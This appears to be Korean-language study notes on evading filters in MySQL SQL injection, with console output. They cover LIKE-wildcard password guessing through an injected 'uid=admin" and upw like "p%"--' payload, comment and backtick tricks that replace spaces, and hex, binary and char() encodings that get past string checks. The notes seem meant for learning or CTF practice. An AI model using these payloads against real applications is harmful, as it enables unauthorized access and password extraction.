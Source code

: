 ```sql
 mysql> select 1 || 1;
 /*
 +--------+
| 1 || 1 |
+--------+
|      1 |
+--------+
1 row in set (0.00 sec)
*/
```

특히 %, _는 와일카드라고 불림
substring, substr, mid, pad, left, right 이런 함수들이 필터링되어 있을 때,
다음과 같이 우회할 수 있음
와일드 카드를 이용할 땐, = 이용 불가, like만 됨

	uid=admin" and upw like "p%"-- 



### 공백 탐지 미흡

```sql
mysql> SELECT/**/'abc';
/*
+-----+
| abc |
+-----+
| abc |
+-----+
1 row in set (0.00 sec)
*/

mysql> select`username`,(password)from`users`WHERE`username`='admin';
/*
+----------+----------------+
| username | password       |
+----------+----------------+
| admin    | admin_password |
+----------+----------------+
1 row in set (0.00 sec)
*/
```


### MYSQL 우회 기법
문자열 검사 우회

```sql
mysql> select 0x6162, 0b110000101100010;
/*
+--------+-------------------+
| 0x6162 | 0b110000101100010 |
+--------+-------------------+
| ab     | ab                |
+--------+-------------------+
1 row in set (0.00 sec)
*/

mysql> select char(0x61, 0x62);
/*
+------------------+
| char(0x61, 0x62) |
+------------------+
| ab               |
+------------------+
```